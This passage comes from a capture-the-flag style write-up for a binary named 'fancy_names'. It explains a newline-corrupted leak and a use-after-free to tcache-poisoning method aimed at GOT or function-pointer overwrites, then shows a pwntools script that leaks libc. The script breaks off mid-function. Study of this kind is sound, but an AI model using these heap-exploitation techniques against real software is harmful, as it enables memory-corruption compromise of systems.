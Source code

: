 
- examining our leak we see that we need to be writing a byte less then we currently are because our newline is corrupting the leak
![](https://i.imgur.com/dfjKOGP.png)
- this is our data after sending 16 bytes but remember we're also writing a newline so be careful about sending data with new lines when you're trying to leak things.

---

### use after free -> tcache poison methodology:
 - 1. UAF write to the tcache FD point it to any useful address, think about potential got overwrites or writing into function pointers 
 - 2. Allocate memory of the same size as the corrupted chunk, which will remove the chunk from the tcache. 
 - 3. Allocate memory again, this will be writing the data to specified location (i.e, write what where primitive) 

```python
from pwn import *  
  
  
elf = context.binary = ELF("fancy_names_patched", checksec=True)  
libc = elf.libc  
context.arch = "amd64"  
context.log_level = "debug"  
  
gs = """  
continue"""  
  
def start():  
 with context.quiet:  
   if args.GDB:  
     return gdb.debug(elf.path, gdbscript=gs, api=True)  
   elif args.REMOTE:  
     return remote(host, port)  
   else:  
     return process(elf.path)  
  
def pause():  
 if args.GDB:  
   io.gdb.interrupt_and_wait()  
  
io = start()  
#io = remote()  
#io.timeout = 1  
  
def leak_val(size: int) -> int:  
   io.sendlineafter(b"> ", b"1")  
   payload_one = b"B" * size  
   io.sendlineafter(b": " ,payload_one)  
   io.recvuntil(payload_one)  
   io.recvline()  
   leak = int.from_bytes(io.recvline().rstrip(), byteorder="little")  
   io.sendlineafter(b": ", b"n")  
   return leak  
  
fprintf_leak = leak_val(55)  
log.info(f"fprintf leak @ {fprintf_leak:#x}")  
  
libc.address = fprintf_leak - (libc.sym.fprintf+148)  
log.info(f"libc @ {libc.address:#x}")  
  
  
def uaf(data):  
```